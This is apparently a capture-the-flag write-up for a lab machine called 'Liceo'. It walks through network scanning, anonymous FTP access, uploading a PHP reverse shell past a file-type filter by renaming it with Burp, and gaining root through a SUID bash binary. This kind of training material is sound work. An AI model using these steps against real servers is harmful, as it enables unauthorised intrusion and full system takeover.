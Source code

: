 ```yaml
---
title: Liceo - Writeup
date: 2024-04 - 10
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - Ftp
  - File Upload
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.209 08:00:27:76:63:4b PCS Systemtechnik GmbH
```

# Ports

Starting with port scanning by using nmap

```bash
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:76:63:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We can see that 80, 22 and 21 ports are opened
# FTP

```shell
lftp 192.168.0.209
lftp 192.168.0.209:~> user anonymous
lftp anonymous@192.168.0.209:~> ls
-rw-rw-r--    1 1000     1000          191 Feb 01 14:29 note.txt
lftp anonymous@192.168.0.209:/> cat note.txt 
Hi Matias, I have left on the web the continuations of today's work, 
would you mind contiuing in your turn and make sure that the web will be secure? 
Above all, we dont't want intruders...
```

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch  -u http://192.168.0.209/
[04:51:20] 301 -  316B  - /uploads  ->  http://192.168.0.209/uploads/  [04:51:20] 200 -  408B  - /uploads/                                    [04:51:21] 200 -  233B  - /upload.php
```

we can see there is a 'upload.php', which we can probably use for FIle Upload
## File upload

We can use the webshell from /usr/share/webshells/php/php-reverse-shell.php 

```shell
cp /usr/share/webshells/php/php-reverse-shell.php ~/
cp php-reverse-shell.php shell1.jpg
```

once we uploaded it, we use burp to change into 'shell1.phtml', which can be successfully uploaded.

![[upload_file.png]]

Then we access '/uploads/shell1.phtml' and then we can get a low shell.

Under /home/dev, we are able to get the user flag.


## Privilege Escalation

```shell
find / -user root -perm /4000 2>/dev/null
/usr/bin/bash
```

then we can do 

```shell
/usr/bin/bash -p
```

and we can get root permission


